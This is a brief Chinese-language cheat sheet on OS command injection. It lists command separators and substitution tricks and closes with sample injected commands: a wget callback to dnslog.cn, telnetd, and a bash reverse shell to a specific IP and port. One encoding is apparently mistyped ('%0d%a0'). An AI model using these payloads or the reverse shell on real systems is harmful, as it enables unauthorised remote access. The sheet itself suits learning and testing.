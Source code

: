 #### 可注入分割符和注入命令

__单引号要闭合__! 因为单引号中，\`\` 和 $ 和 ；不会被识别执行，双引号分号识别不了


```shell
#  可注入分割符
%0a
%0d 
;
&
|
$(shell_command)
`shell_command`
{shell_command,}
```

1、分号`;`分割


2、`||` `&&` `&` `|`分割

  ||(或者)当前面的执行出错时执行后面的

  &&(和)当前一条命令执行成功后面的命令才会执行

  &将前边的命令放在后台执行
  
  | 管道符  显示后面的命令的执行结果

3、`\r\n` `%0d%a0` 换行

主要用于报文里拼接
%0a 即 \n
%0d 即 \r

4、反引号解析和 `$()` 替换

如果在一条命令中出现了反引号，系统会首先执行反引号内的命令，然后将执行结果作为xclibc的参数

5、额外的一些拼接

双大括号字符组合输出

cat {./te,st}{st,st}
to
./test test stst stst

\> 用于重定向，如果目标文件已经存在则覆盖其中的内容


注入命令
```shell

wget dnslog.cn

telnetd

sh -c "sh -i >& /dev/tcp/150.158.144.112/1234 0>&1"\x00

```
